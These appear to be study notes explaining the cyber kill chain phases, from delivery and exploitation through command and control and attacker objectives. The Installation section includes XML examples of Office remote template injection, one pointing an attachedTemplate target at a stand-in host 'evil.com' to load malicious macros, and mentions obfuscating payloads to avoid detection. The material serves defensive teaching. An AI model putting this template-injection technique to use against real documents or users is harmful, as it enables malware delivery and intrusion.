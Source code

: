 **Delivery** is where the adversary makes their attempt to get into the target network. It may be done with:
- phishing
- insider
- hardware drop
- remotely exploited vulnerability
Defenders can detect whether they are being targeted by having visibility in this phase.

**Exploitation** is when the adversary exploits the target and executes code on the system. This either needs:
- Trick user into opening an attachment or link that executes an exploit condition (Arbitrary Code Execution (ACE)).
- Remotely run exploit on target system (Remote Code Execution(RCE)).

**Installation** is phasee when an initial payload is delivered as a result of the exploitation. Installation generally has multiple sub-phases, such as loading multiple tools/droppers onto the target to gain a good foothold and avoid anti-virus detection.
For example, this Macro:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/
package/2006/relationships"><Relationship Id="ird4"
Type=http://schemas.openxmlformats.org/officeDocument/2006/
relationships/attachedTemplate
Target="file:///C:\Users\admin\AppData\Roaming\Microsoft\
Templates\GoodTemplate.dotm?raw=true"
Targetmode="External"/></Relationships>
```
On that example, take note of `Target="file:///"` which defines the local template. Adversary also using the `Target=syntax` to load a remote template that includes malicious macros as stated below:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/
package/2006/relationships"><Relationship Id="ird4"
Type="http://schemas.openxmlformats.org/officeDocument/2006/
relationships/attachedTemplate"
Target="https://evil.com/EvilTemplate.dotm?raw=true"
Targetmode="External"/></Relationships>
```
This is allowed in the standard and a prime candidate for abuse. To avoid detection, attacker can also implement encryption and obfuscation on top of the payloads.

**Command & Control (C2)** is establishing remote access over the target. Adversary making sure that the C2 is able to evade detection and persist through normal system operation (reboot). To avoid being detected on this phase, adversary tend to slow down, often remain dormant between phases.

**Actions on the Objective** adversary performs the true goal of their intrusion.
- Adware
- Ransomware
- Exfiltrating sensitive information
- Dig deeper into the target and starts over the cycle with privileged access (this iscommon with ICS compromise)
- Using the server as infrastructure (i.e. proxychain)
